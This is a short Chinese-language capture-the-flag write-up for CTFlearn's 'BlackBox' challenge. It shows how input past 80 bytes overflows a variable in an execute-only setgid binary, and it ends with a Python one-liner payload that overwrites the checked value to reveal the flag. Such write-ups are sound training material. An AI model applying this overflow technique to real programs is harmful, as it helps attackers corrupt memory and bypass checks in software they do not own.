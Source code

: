 ```yaml
---
layout: post
title: BlackBox
categories: writeups
tags: misc
ctfsite: ctflearn.com
challenge_url: https://ctflearn.com/problems/393
challenge_url_comment: 需要注册登录
---
```


登录到服务器后，看一下目录，发现既没有源代码，二进制程序也没有读取的权限，只有执行权限：

```
total 36
drwxr-xr-x  2 root root         4096 Oct  9  2017 .
drwxr-xr-x 12 root root         4096 Oct 24 11:46 ..
-r--r--r--  1 root root          220 Aug 31  2015 .bash_logout
-r--r--r--  1 root root         3771 Aug 31  2015 .bashrc
---x--s--x  1 root blackbox_pwn 8936 Jan 31 17:16 blackbox
-r--r--r--  1 root root            0 Sep 18  2017 .cloud-locale-test.skip
-r--r-----  1 root blackbox_pwn   33 Oct  9  2017 flag.txt
-r--r--r--  1 root root          655 May 16  2017 .profile
```

{% include writeup_begin.html %}

运行一下 `blackbox`，程序要求输入 1 + 1 等于几。尝试输入 2：

```
blackbox@ubuntu-512mb-nyc3-01:~$ ./blackbox
What is 1 + 1 = 2
No dummy... 1 + 1 != 0...
```

随后发现不论输入什么数，程序都只输出 `No dummy... 1 + 1 != 0...`。鉴于没什么可以做的，只能尝试把输入的字符串变长。直到字符串长度超过 80 个字节后，程序的输出发生了变化：

```
blackbox@ubuntu-512mb-nyc3-01:~$ ./blackbox
What is 1 + 1 = 1111111111111111111111111111111111111111111111111111111111111111111111111111111111111
No dummy... 1 + 1 != 825307441...
```

计算器转换一下 `825307441`，发现正好为 `0x31313131`，即我们的字符串溢出覆盖了待检查的结果。慢慢尝试缩短字符串，发现从 第 81 个字节开始就会覆盖答案。因此执行：

`python -c "print '11111111111111111111111111111111111111111111111111111111111111111111111111111111\x02\x00\x00\x00'" | ./blackbox`

就可以得到 flag 了。

{% include writeup_end.html %}
